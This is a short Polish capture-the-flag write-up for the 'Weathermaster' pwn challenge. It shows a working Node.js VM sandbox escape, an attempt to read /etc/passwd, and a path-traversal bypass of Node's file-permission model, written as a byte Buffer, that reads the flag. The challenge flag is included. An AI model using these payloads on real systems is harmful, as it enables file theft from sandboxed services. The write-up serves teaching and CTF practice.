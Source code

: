# Weathermaster - pwn

### Vulnerability

1. Komenda `! [code] - Execute code` korzysta z Node'wy [VM](https://nodejs.org/api/vm.html), w którym można łatwo importować dodatkowe biblioteki.

### Task

Używając poprzedniej komendy, można zaimportować `fs` którym próbujemy odczytać `/etc/passwd`:

```
EnviroTrack WeatherMaster 3000 Station Control Shell
Runtime version: v20.5.0
>> ! this.constructor.constructor("console.log(process.mainModule.require('fs').readFileSync('/etc/passwd').toString())")()
Access to this API has been restricted
```

Node przy uruchamianiu jest startowany z parametrami: `--experimental-permission --allow-fs-read="/app/*"`, używając [CVE-2024-32004](https://web.archive.org/web/20240229154138/https://jorianwoltjer.com/blog/p/ctf/htb-university-ctf-2023/androcat#node-permissions-bypass) odczytujemy flagę (`/app/logs/../../flag.txt`):

```
>> ! this.constructor.constructor("console.log(process.mainModule.require('fs').readFileSync(new Buffer([47,97,112,112,47,108,111,103,115,47,46,46,47,46,46,47,102,108,97,103,46,116,120,116])).toString())")()

ecsc24{whats_th3_f0recast_f0r_nodejs?}
```
